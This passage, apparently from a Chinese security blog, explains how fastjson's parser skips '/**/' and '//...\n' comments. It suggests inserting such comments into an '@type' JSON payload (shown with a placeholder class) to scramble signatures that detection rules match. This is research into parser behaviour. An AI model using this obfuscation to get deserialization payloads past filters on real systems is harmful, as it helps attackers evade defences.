

可以看见如果是正常逻辑匹配到`*/`只是移动到下一字符返回



之后继续处理正常逻辑

#### [](#题外话)题外话
fastjson眼中的注释`/**/`，`//y4tacker\n`，具体可以看skipComment的逻辑

因此在支持加注释的地方可以试试添加打乱特征

`//y4tacker\n{//y4tacker\n"@type"//y4tacker\n://y4tacker\n"com.test.Test"//y4tacker\n}`


